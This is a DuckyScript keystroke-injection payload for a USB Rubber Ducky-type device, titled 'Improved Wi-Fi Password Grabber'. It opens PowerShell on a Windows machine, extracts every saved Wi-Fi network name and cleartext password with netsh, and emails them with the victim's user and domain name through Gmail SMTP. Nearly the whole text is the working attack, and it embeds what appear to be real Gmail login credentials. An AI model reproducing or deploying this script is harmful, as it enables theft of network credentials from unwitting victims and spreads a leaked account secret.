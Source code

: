 REM Title       : Improved Wi-Fi Password Grabber
REM Author      : Jacob Collins
REM Version     : 3
REM Description : An improved version of the "WiFi password grabber" by Siem. It is a bit faster, and shorter.
REM DISCLAIMER  : Make sure to replace all instances of "YOUREMAIL@gmail.com" (without quotes), with your actual e-mail (MUST BE G-MAIL!).
REM DISCLAIMER  : Make sure to enable "Allow less secure apps". Here is the link: https://myaccount.google.com/lesssecureapps
DELAY 1000
REM --------> Open the run dialog
GUI r
DELAY 500
REM --------> Open Powershell straight away, allows us to type the command out as its queueing. Close when Powershell exits.
STRING cmd /c powershell && exit
DELAY 500
Rem --------> Long-ass command. Gets the SSID and password off each saved WiFi network, formats a bit, sends it to YOUREMAIL@gmail.com, through the account of YOUREMAIL@gmail.com
STRING $out=((netsh wlan show profile|findstr "All User Profile") -match "All User Profile").split(":");$i=0;ForEach($line in $out){if($i -eq "1") {(netsh wlan show profile $line.substring(1) Key=clear|findstr /I "SSID Content"|findstr /V "SSIDs") -replace "[^`"]$","`r`n">>a;$i++}else{$i=1}};$SMTPServer="smtp.gmail.com";$SMTPInfo=New-Object Net.Mail.SmtpClient($SmtpServer,587);$SMTPInfo.EnableSsl=$true;$SMTPInfo.Credentials=New-Object System.Net.NetworkCredential("jacrb2002@gmail.com","db1ae01b2a4dab12");$ReportEmail=New-Object System.Net.Mail.MailMessage;$ReportEmail.From="jacrb2002@gmail.com";$ReportEmail.To.Add("jacrb2002@gmail.com");$ReportEmail.Subject=($env:UserName+"@"+$env:UserDomain);$ReportEmail.Body=(Get-Content a|out-string);$SMTPInfo.Send($ReportEmail);rm a;exit